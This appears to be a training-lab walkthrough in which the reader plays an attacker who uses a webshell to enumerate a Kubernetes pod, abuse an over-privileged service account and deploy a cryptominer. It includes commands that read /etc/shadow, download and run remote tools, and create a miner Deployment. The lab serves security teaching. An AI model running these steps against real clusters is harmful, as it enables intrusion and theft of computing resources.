


# Free Compute: Scenario 1 Attack

## Warning

In these Attack scenarios, we're going to be doing a lot of things that can be crimes if done without permission. Today, you have permission to perform these kinds of attacks against your assigned training environment.

In the real world, use good judgement. Don't hurt people, don't get yourself in trouble. Only perform security assessments against your own systems, or with written permission from the owners.

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space for specific issues
* Leverages off-the-shelf attacks
* Basic Kubernetes knowledge

### Motivations

* __Red__’s intrusion-as-a-service provider compromises website and uploads a webshell
* __Red__ gets the URL of the webshell and wants to deploy some crypto-miners

## Initial Access

__Red__ has been mining `bitcoinero` for a few months now, and it's starting to gain some value.  To capitalize on this bubble, __Red__ uses a service that sells shell access to expand the mining pool.  To find the compromised website, run the following from your Cloud Shell terminal:

```console
./check-email.sh
```

Log into the URL in a browser, and you should be looking at a working web terminal.



## Thinking In Graphs

Attacking a system is a problem-solving process similar to troubleshooting: __Red__ begins with a goal (deploy an unauthorized cryptominer) but doesn't really know what resources are available to achieve that goal. They will have to start with what little they already know, perform tests to learn more, and develop a plan. The plan is ever-evolving as new information is gleaned.

The general process looks like this:



* __Study__

    In this phase, use enumeration tools to start from the information you have, and get more information. Which tools to use will depend on the situation. For example, `nmap` is commonly used to enumerate IP networks. `nikto`, `burp`, and `sqlmap` are interesting ways to learn more about web applications. Windows and Linux administrative utilities such as `uname`, `winver`, and `netstat` provide a wealth of information about their host OSes.

* __Plan__

    In this phase, think about everything you currently know, and what actions you can take based on that knowledge. If you think you can do something that will help you get closer to your goal, move onto Attack. Otherwise, go back to Study and try to learn more.

* __Attack Something__

    In this phase, you take some action in the hope of getting closer to your goal. This may be running an exploit tool against a buggy piece of software, launching some kind of credential-guessing utility, or even just running a system command like kubectl apply. Your success or failure will teach you more about your target and situation. Move on to Study, Persist, or Win, as appropriate.

* __Persist__

    In this optional phase, you take some action to make it easier to re-enter the system or network at a later time. Common options are running a malware Remote Access Tool such as Meterpreter, creating new accounts for later use, and stealing passwords.

* __Win__

    Eventually, you may achieve your goals. Congratulations! Now you can stop hacking and begin dreaming about your next goal.

## Getting Some Loot

Since __Red__ already has a shell on a compromised host (Thanks, Natoshi!), the process is fairly simple. They need to identify the resources available to them by poking around, and then run the cryptominer as easily as possible:

Let's become __Red__ and try some basic information-gathering commands to get a feel for the environment:

```console
id
```
```console
uname -a
```
```console
cat /etc/lsb-release /etc/redhat-release
```
```console
ps -ef
```
```console
df -h
```
```console
netstat -nl
```

Note that the kernel version doesn't match up to the reported OS, and there are very few processes running. This is probably a container.

Let's do some basic checking to see if we can get away with shenanigans. Look around the filesystem. Try downloading and running <a href="http://pentestmonkey.net/tools/audit/unix-privesc-check" target="_blank">a basic Linux config auditor</a> to see if it finds any obvious opportunities. Search a bit on https://www.exploit-db.com/ to see if there's easy public exploits for the kernel.

```console
cat /etc/shadow
```
```console
ls -l /home
```
```console
ls -l /root
```
```console
cd /tmp; curl http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz | tar -xzvf -; unix-privesc-check-1.4/unix-privesc-check standard
```

That's not getting us anywhere. Let's follow-up on that idea that it's maybe a container:

```console
cd /tmp; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

This tells us several things:

* We are in a container, and it's managed by Kubernetes
* Some security features are not in use (userns)
* The host seems to be running the default Docker seccomp profile, restricting some key kernel calls
* We don't have any exciting capabilities. <a href="http://man7.org/linux/man-pages/man7/capabilities.7.html" target="_blank">Click for more capabilities info.</a>

Now let's inspect our Kubernetes environment:

```console
env | grep -i kube
```
```console
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```
```console
ls /var/run/secrets/kubernetes.io/serviceaccount
```

We have typical Kubernetes-related environment variables defined, and we have anonymous access to some parts of the Kubernetes API. We can see that the Kubernetes version is modern and supported -- but there's still hope if the Kubernetes security configuration is sloppy. Let's check for that next:

```console
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.16.4/bin/linux/amd64/kubectl; chmod 555 kubectl
```
```console
kubectl get all
```
```console
kubectl get all -A
```
```console
kubectl get namespaces
```

By default, kubectl will attempt to use the default service account in `/var/run/secrets/kubernetes.io/serviceaccount` -- and it looks like this one has some API access. Note that we can't see anything outside our namespace, though.

Let's inspect what all we __can__ do:

```console
kubectl auth can-i --list
```

Can we create pods in this namespace?

```console
kubectl auth can-i create pods
```

Happy day! Our service account is admin in our pod's namespace! Maybe the dashboard on port 31337 needs that much access? Anyway, this gives us what we need to achieve our goals.

```console
cd /tmp; cat > bitcoinero.yml <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  labels:
    run: bitcoinero
  name: bitcoinero
  namespace: prd
spec:
  replicas: 1
  revisionHistoryLimit: 2
  selector:
    matchLabels:
      run: bitcoinero
  strategy:
    rollingUpdate:
      maxSurge: 25%
      maxUnavailable: 25%
    type: RollingUpdate
  template:
    metadata:
      labels:
        run: bitcoinero
    spec:
      containers:
      - image: securekubernetes/bitcoinero:latest
        name: bitcoinero
        command: ["./moneymoneymoney"]
        args:
        - -c
        - "1"
        - -l
        - "10"
        resources:
          requests:
            cpu: 100m
            memory: 128Mi
          limits:
            cpu: 200m
            memory: 128Mi 
EOF

./kubectl apply -f bitcoinero.yml
sleep 10
./kubectl get pods
```

We can see the bitcoinero pod running, starting to generate us a small but steady stream of cryptocurrency.

_MISSION ACCOMPLISHED_
